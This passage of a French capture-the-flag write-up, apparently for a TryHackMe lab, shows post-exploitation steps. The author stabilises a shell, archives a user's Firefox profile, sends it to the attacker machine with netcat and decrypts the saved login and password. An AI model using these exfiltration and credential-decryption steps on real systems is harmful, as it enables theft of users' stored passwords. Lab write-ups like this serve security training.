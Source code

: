 ```bash
$ python3 -c "import pty;pty.spawn('/bin/bash')"
user@ubuntu:/var/web$ 

cd /home/user
user@ubuntu:~

user@ubuntu:~$ ls -al
ls -al
total 48
drwxr-xr-x   8 user user  4096 Jan 27  2021 .
drwxr-xr-x   4 root root  4096 Jan 15  2021 ..
lrwxrwxrwx   1 root root     9 Jan 21  2021 .bash_history -> /dev/null
-rw-r--r--   1 user user  3771 Apr  4  2018 .bashrc
drwx------   2 user user  4096 Jan  4  2021 .cache
drwxrwxrwx   4 user user  4096 Jan 27  2021 .firefox
drwx------   3 user user  4096 Jan  4  2021 .gnupg
drwxr-xr-x 270 user user 12288 Jan  4  2021 .npm
drwxrwxr-x   5 user user  4096 Aug 15 20:02 .pm2
drwx------   2 user user  4096 Jan 21  2021 .ssh
-rw-rw-r--   1 user user    22 Jan  4  2021 user.txt
```
On stabilise le shell.  
Dans le répertoire user on un répertoire firefox caché.   

```bash
user@ubuntu:~$ tar -cf firefox.tar .firefox  
tar -cf firefox.tar .firefox  

user@ubuntu:~$ python3 -m http.server
python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

On met les fichiers de firfox dans une archive.   
On crée un serveur web pour transferer le l'archive.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -l -p 4321 > ./firefox.tar
```

On écoute le port pour récupérer l'archive.   

```bash
user@ubuntu:~$ nc 10.9.228.66 4321 < ./firefox.tar
nc 10.9.228.66 4321 < ./firefox.tar

tim@kali:~/Bureau/tryhackme/write-up$ tar -xf firefox.tar 
tim@kali:~/Bureau/tryhackme/write-up$ wget https://raw.githubusercontent.com/timruff/firefox_decrypt/master/firefox_decrypt.py -nv

2021-08-16 00:03:40 URL:https://raw.githubusercontent.com/timruff/firefox_decrypt/master/firefox_decrypt.py [37599/37599] -> "firefox_decrypt.py" [1]

tim@kali:~/Bureau/tryhackme/write-up$ python3 firefox_decrypt.py .firefox
Select the Mozilla profile you wish to decrypt
1 -> hknqkrn7.default
2 -> b5w4643p.default-release
2

Website:   https://glitch.thm
Username: 'v0id'
Password: 'love_the_void'

```

